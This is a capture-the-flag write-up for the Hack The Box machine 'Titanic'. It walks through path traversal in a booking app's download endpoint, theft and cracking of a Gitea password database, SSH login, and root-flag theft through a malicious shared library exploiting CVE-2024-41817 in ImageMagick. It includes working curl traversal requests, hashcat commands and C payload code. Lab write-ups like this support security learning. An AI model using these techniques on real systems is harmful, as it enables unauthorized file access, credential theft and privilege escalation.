



# Titanic

Difficulty: Easy
OS: Linux
Category: Offensive
Date: 2025-03-26
Added: 2026-10-01
Default position: bottom


I used a path-traversal vulnerability in Titanic's booking application to read local files and retrieve a Gitea database. After recovering the developer account's password, I connected over SSH. I then abused an ImageMagick shared-library loading vulnerability in a privileged image-processing task to read the root flag.

[My HTB completion record](https://www.hackthebox.com/achievement/machine/1006224/648)

## Enumeration

My port scan identified a web service on port 80. I added `titanic.htb` to `/etc/hosts`, pointing it at the machine's assigned IP address, and opened the site.


I explored the booking page and used `ffuf` to look for additional virtual hosts. This command varied the HTTP `Host` header; it was virtual-host enumeration rather than directory fuzzing. I filtered HTTP 301 responses to reduce noise.

```bash
ffuf -w /wordlists/subdomains-top1million-110000.txt -u http://titanic.htb/ -H "Host:FUZZ.titanic.htb" -fc 301
```

The scan revealed `dev.titanic.htb`. I added that hostname to `/etc/hosts` with the same target IP.

## Reading Local Files Through the Ticket Download

Submitting a booking downloaded a JSON ticket. I repeated the booking with Burp Suite intercepting the traffic and separated the booking submission from the subsequent download request. The download used a `ticket` query parameter to select a file.

I sent that request to Repeater and replaced the ticket value with `../../../../etc/passwd`. The response exposed the password-file contents, including an account named `developer`.

That confirmed path traversal: I could read local files through the download endpoint. I hadn't shown that the server would execute anything I requested.

## Retrieving the Gitea Database

The development hostname served Gitea.



I registered an account and explored the available repositories. A `docker-compose.yaml` file exposed the Gitea deployment's volume mapping. That connected the container's `/data` directory to `/home/developer/gitea/data` on the host and gave me a starting point for reading its configuration through the booking application.

```bash
curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'
```

The database was at `/data/gitea/gitea.db` inside the container. Following the volume mapping gave me `/home/developer/gitea/data/gitea/gitea.db` on the host. The extra `gitea` directory matters here.

I downloaded the database using the same file-read vulnerability. The following command makes the output filename explicit:

```bash
curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db' -o gitea.db
sqlite3 gitea.db
```

Inside SQLite, I listed the tables, inspected the `user` table's schema, and selected the account names and password-hashing fields.

```sql
.tables
PRAGMA table_info(user);
SELECT lower_name, passwd, passwd_hash_algo, salt FROM user;
```

## Recovering the Developer Password

I used the `passwd_hash_algo` field to identify the password derivation settings before converting the hash for Hashcat. Gitea stores PBKDF2 settings in the form `pbkdf2$iterations$keyLength`; the final value is the derived-key length in bytes, not the salt length. This interpretation follows [Gitea's PBKDF2 implementation](https://github.com/go-gitea/gitea/blob/main/modules/auth/password/hash/pbkdf2.go).

I wrote down `pbkdf2$5000$50`, but didn't save the database output. That would mean 5,000 iterations and a 50-byte derived key; I'd double-check the actual row before using that count.

I used a `gitea2hashcat` converter to encode the hexadecimal salt and hash into the format required by Hashcat mode 10900, PBKDF2-HMAC-SHA256. The [converter in Hashcat's repository](https://github.com/hashcat/hashcat/blob/master/tools/gitea2hashcat.py) currently emits 50,000 iterations, so its output must match the database's settings before use. Conversion changes the representation, not the underlying password hash.

For a username-prefixed entry, the resulting format is:

```text
name:sha256:iterations:saltBase64:hashBase64
```

I kept those hash lines in `hashes.txt`. The commands below distinguish a dictionary attack from displaying results already saved in Hashcat's potfile. The `--username` option accounts for the leading account name.

```bash
hashcat -m 10900 --username hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 10900 --username hashes.txt --show
```

My earlier command used `--show` as though it performed the attack. It only displays previously recovered results; a fresh recovery requires running an attack first.

After recovering the developer password, I connected over SSH and found `user.txt` in the account's home directory. The exported notes do not retain the recovered password, so I haven't added one here.

```bash
ssh developer@titanic.htb
cat ~/user.txt
```



## Privilege Escalation Through ImageMagick

After running LinPEAS, I took a closer look at `/opt/scripts/identify_images.sh`.



The script changed into `/opt/app/static/assets/images`, cleared `metadata.log`, and passed JPEG files to `/usr/bin/magick identify`. I checked ImageMagick's version and looked for writable directories:

```bash
/usr/bin/magick --version
find / -writable -type d 2>/dev/null
```

The images directory was writable by `developer`. That mattered because it was also the working directory used by the image-processing task.

I identified CVE-2024-41817 as the relevant ImageMagick issue. The [upstream advisory](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) describes an AppImage packaging flaw in versions through 7.1.1-35, fixed in 7.1.1-36. Empty entries in its library or configuration search paths can cause files in the current directory to be loaded. This is specific to the affected packaging and environment, rather than every ImageMagick installation.

I didn't save the version output or the scheduler configuration. The flag copy below showed the access this task had; the script alone wouldn't tell me which user ran it.

### Placing the Shared Library

From the writable images directory, I compiled a shared library named `libxcb.so.1`. Its constructor copied `/root/root.txt` into the working directory and made the copy readable. This was the payload recorded in my notes:

```bash
cd /opt/app/static/assets/images
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

Compiling the library did not itself copy the flag. The constructor ran when the vulnerable ImageMagick process loaded the library from its working directory. I left it there for the recurring privileged image-processing task and waited approximately a minute.

The task produced `root.txt` in the images directory, which I then read:

```bash
ls -l /opt/app/static/assets/images/root.txt
cat /opt/app/static/assets/images/root.txt
```

This completed the recorded flag-retrieval path. I obtained access to the root flag through the privileged process; I didn't document an interactive root shell.
